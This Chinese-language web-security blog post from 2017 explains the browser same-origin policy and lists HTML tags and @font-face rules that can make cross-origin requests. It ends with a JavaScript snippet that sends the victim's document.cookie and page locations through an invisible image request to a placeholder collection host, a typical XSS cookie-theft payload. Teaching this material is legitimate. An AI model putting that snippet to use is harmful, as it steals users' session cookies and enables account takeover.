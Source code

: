 ```yaml
---
title: 浅谈跨域
date: 2017-11-11 21:00:30
tags: Web安全
toc: true
---
```


> 本文首发圈子
> What matters in life is not what happens to you but what you remember and how you remember it. 
生命中真正重要的不是你遭遇了什么，而是你记住了哪些事，又是如何铭记的

### 0x00 同源 

一般由 域名或ip 端口 协议决定 同源策略(SOP) 
影响范围包括 ：HTTP 请求目标，XMLHttpRequest ，XSLT，XBL等
同源策略没有禁止script等标签执行，而是禁止读写response内容
对于Chrome firefox 从https到http跨域请求会被拦截的
一般 js/css/jpg/png等不受SOP限制

例如  a.com下加载b.com/b.js,b.js源为a.com

### 0x01 xss src标签

增加 html 标签 可以跨域 这些带有"src"属性的标签每次加载的时候,实际上是由浏览器发起一个get请求
但不能读写返回内容，即response

```
<script src=""> 
<img> 
<iframe>
<video> 
<audio>
<embed>
<object data="">
<applet code="">
<link rel="stylesheet" href="">
<frame>
```

@font-face 引入跨域字体  (来自sn00py表格的姿势)
```
  <style type="text/css">
    @font-face {
      src: url("http://developer.mozilla.org/@api/deki/files/2934/=VeraSeBd.ttf");
    }
  </style>
```
等标签可以跨域请求资源，例如
```
img =newImage();
img.src="http://xxx/index.php?do=api&amp;id={projectId}&amp;cookie="+ escape(document.cookie) +"&amp;location="+ escape(window.location.href) +"&amp;top="+ escape(top.location.href) +"&amp;address="+ escape(l);
img.width = 0;
img.height = 0;
```

